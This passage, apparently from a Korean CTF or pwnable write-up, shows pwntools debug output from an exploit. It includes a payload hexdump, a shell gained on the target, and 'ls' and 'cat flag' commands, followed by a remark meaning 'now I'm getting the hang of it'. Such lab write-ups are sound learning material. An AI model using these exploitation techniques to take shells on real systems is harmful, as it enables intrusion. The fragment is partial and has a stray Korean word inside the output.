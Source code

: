 ```bash
    00000040  41 41 40 99  d8 f7 41 41  41 41 2b 80  ea f7 0a     │AA@·│··AA│AA+·│···│
    0000004f
[*] Switching to interactive mode
 일거야
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xa bytes:
    'flag\n'
    'main\n'
flag
main
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x28 bytes:
```

이제 좀 감이 잡힌다!



